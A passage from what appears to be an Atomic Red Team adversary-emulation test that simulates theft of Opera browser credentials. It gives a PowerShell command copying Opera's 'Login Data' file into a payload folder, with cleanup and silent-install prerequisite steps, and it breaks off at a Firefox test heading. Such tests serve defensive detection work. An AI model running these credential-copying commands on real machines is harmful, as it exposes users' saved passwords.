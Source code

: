 
**auto_generated_guid:** 28498c17-57e4-495a-b0be-cc1e36de408b






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:APPDATA\Opera Software\Opera Stable\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Opera must be installed
##### Check Prereq Commands:
```powershell
if (((Test-Path "$env:LOCALAPPDATA\Programs\Opera\launcher.exe") -Or (Test-Path "C:\Program Files\Opera\launcher.exe") -Or (Test-Path "C:\Program Files (x86)\Opera\launcher.exe"))) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\OperaStandaloneInstaller.exe"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\OperaStandaloneInstaller.exe" https://get.geo.opera.com/pub/opera/desktop/82.0.4227.43/win/Opera_82.0.4227.43_Setup.exe
Start-Process $installer -ArgumentList '/install /silent /launchopera=1 /setdefaultbrowser=0'
Start-Sleep -s 180
Stop-Process -Name "opera"
```
##### Description: Opera login data file must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "$env:APPDATA\Opera Software\Opera Stable\Login Data") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path "$env:APPDATA\Opera Software\Opera Stable\Login Data" -ItemType File
```




<br/>
<br/>

## Atomic Test #6 - Simulating access to Windows Firefox Login Data
Simulates an adversary accessing encrypted credentials from firefox web browser's login database.
more info in https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data
